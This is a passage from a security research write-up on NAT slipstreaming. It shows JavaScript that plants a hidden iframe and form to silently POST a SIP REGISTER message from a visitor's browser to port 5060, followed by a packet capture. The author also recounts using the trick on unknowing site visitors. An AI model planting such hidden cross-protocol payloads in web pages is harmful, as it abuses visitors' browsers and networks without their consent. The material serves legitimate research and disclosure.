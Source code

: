 Assuming NATs reader SIP packets line by line (SIP is newline-based like HTTP and is not a binary protocol), perhaps it will ignore the HTTP header and once it gets to the POST data, read the REGISTER and believe it's a SIP packet. This worked in our 2010 version for the IRC DCC. The NAT ignored the HTTP header and just parsed the IRC DCC command.

Funny thing, this also allowed us to actually make users who visit our site connect to a *legitimate* IRC server, join a channel, and send a message from their IP without them knowing! :P I demo'd this technique fo sending email to mail servers with client IP addresses before port 25 was blocked by browsers and before SPF records were common...craziness.

Now, in a quick test, sending a SIP REGISTER packet over port 5060 through an HTTP POST doesn't seem to work...perhaps we're missing something from the packet.

```javascript
// our sip message
var sipmsg = 'REGISTER sip:samy.pl;transport=TCP SIP/2.0\r\n' +
             'Contact: <sip:samy@192.168.0.109:1234;transport=TCP>\r\n\r\n'

// load form in an iframe so user doesn't se it
var iframe = document.createElement('iframe')
iframe.name = 'iframe'
iframe.style.display = 'none' // hide the iframe

// create form
var form = document.createElement('form')
form.setAttribute('target', 'iframe') // load into iframe
form.setAttribute('method', 'POST') // need the POST area where we can add CRLFs
form.setAttribute('action', 'http://samy.pl:5060') // "http" server on SIP port 5060
form.setAttribute('enctype', 'multipart/form-data') // ensure our data doesn't get encoded

var textarea = document.createElement('textarea')
textarea.setAttribute('name', 'textname') // required
textarea.innerHTML = sipmsg
form.appendChild(textarea)
document.body.appendChild(iframe)
document.body.appendChild(form)
form.submit()
```

If we sniff, we see (parsed via [`h2b`](https://github.com/samyk/samytools/blob/master/h2b)):

```sh
$ unbuffer tcpdump -X port 5060 | h2b
POST / HTTP/1.1
Host: samy.pl:5060
Connection: keep-alive
Content-Length: 191
Cache-Control: max-age=0
Origin: http://samy.pl
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhcoAd2iSAx3TJA7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://samy.pl/o/sp.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryhcoAd2iSAx3TJA7A
Content-Disposition: form-data; name="textname"

REGISTER sip:samy.pl;transport=TCP SIP/2.0
Contact: <sip:samy@192.168.0.109:1234;transport=TCP>


```